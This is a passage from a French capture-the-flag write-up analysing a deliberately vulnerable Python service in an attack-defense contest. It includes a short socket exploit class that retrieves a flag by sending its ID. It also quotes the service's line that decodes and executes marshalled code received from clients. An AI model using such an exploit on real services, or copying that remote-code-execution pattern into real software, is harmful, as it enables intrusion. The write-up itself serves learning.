 Si la chaîne renvoie faux
-------------------------
C'est le cas le plus simple à obtenir, n'importe quelle chaine faisant a priori l'affaire.
Et nous pouvons donc facilement récupérer un flag grâce à la ligne `clientsock.send("%s\n"%flag)` !
Il suffit que la chaîne contienne le flag_id :

    :::python
    >>> flag = "secret"
    >>> flag_id = 42
    >>> data = "42"  # notre chaine
    >>> if int(data.split(',')[-1]) == flag_id:
    ...     print "envoi du flag :", flag
    ...     
    ... 
    envoi du flag : secret

Un exploit respectant le format demandé serait donc :

    :::python
    class Exploit():

        def execute(self, ip, port, flag_id):
            # notre code ici :
            import socket
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((ip, port))
            s.recv(1024)
            s.send(flag_id)
            self.flag = s.recv(1024)[:-1]  # vire le \n final

        def result(self):
            return {'FLAG' : self.flag }

L'exploit a été testé en local, mais pas sur notre serveur, car nous ne savions pas quel `flag_id` résidait en mémoire (en effet, au lancement, `flag` et `flag_id` valent `None`). Il aurait été intéressant de tester l'outil [pyrasite](https://github.com/lmacken/pyrasite) pour voir leur valeur.
Toujours est il que cet exploit a été soumis mais n'a pas été accepté (peut être à cause d'un oubli de conversion du flag_id en chaîne dans le `s.send(flag_id)`, ou peut être simplement parce qu'il s'agissait là d'un exploit trop évident qu'ils refusaient d'accepter).

Si la chaîne renvoie vrai
-------------------------
Là, c'est plus délicat. Déjà parce que, comme dit précédemment, pour savoir quelle séquence de chiffre mettre, il faut en vouloir. Ensuite parce que, si la chaine qu'on leur envoi leur a déjà été envoyée, la connexion se ferme. Et pour finir, c'est délicat parce que la ligne :

    :::python
    # data = clientsock.recv(BUFSIZ)
    types.FunctionType(marshal.loads(base64.b64decode(data)), globals(), "callback")(clientsock)

qui est la seule ligne ayant de l'intérêt a priori, est très obscure au premier abord.
